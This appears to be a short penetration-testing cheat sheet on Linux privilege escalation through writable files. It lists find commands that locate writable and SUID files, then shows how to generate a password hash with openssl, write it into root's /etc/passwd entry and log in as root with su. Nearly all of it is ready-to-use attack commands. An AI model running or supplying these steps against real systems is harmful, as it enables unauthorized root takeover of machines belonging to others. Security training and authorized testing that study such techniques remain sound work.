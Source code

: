 # Writeable Files

Here is common example of writeable files and their potential exploitation.

```bash
find / -type f -writable -exec ls -l {} \; 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
```

## /etc/passwd

In case you have write access to `/etc/passwd`, you can add a password to the root user and then login as root.

```bash
openssl passwd <password>
# $1$eMFFC8pU$KCTHmfmr9jrJX.OoMl8wo1
```

Then add the password hash to the root user in `/etc/passwd`.

```bash
root:$1$eMFFC8pU$KCTHmfmr9jrJX.OoMl8wo1:0:0:root:/root:/bin/bash"
```

Now we cann login as root with the password we set before.

```bash
su root
```